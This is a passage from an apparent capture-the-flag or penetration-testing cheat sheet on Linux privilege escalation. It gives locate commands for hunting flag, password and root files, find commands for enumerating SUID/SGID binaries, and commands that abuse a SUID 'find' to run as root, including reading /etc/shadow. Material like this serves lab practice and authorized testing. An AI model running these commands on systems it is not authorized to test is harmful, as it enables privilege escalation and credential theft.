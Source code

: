 ```sh
locate *flag*
locate password
locate *password*
locate *save*
locate *save.txt
locate user.txt
locate user*
locate *user*
locate root.txt
locate *root*
locate .db
locate .txt
```

### Exclude Path

We can exclude specific directory with `-not -path` option of `find` command.

```bash
find / -name "*.txt" -not -path "/usr/share" 2>/dev/null
```

<br />

## SUID/SGID (Set User ID/ Set Group ID)

It allows users to run an executable as root privilege.

```sh
# SUID
find / -type f -perm -u=s 2>/dev/null
find / -type f -perm -04000 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

# SGID
find / -type f -perm -g=s 2>/dev/null
find / -type f -perm -02000 2>/dev/null
find / -user root -perm -2000 -exec ls -ldb {} \; 2>/dev/null
```

If you'll get some SUID files, research the information of them using **[GTFOBins](https://gtfobins.github.io/)**.

### Find

If the "find" command is set as SUID, you can execute some commands as root privileges.

```sh
find ./ -exec "whoami" \;
find /etc/shadow -exec cat {} \;
find /root -exec ls -al {} \;
```

### Cputils
